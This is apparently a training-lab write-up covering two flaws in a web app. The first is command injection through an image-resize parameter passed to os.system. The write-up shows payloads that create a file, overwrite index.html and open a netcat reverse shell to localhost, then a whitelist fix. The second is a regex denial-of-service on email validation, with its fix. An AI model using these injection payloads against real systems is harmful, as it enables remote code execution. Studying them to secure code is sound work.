 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.
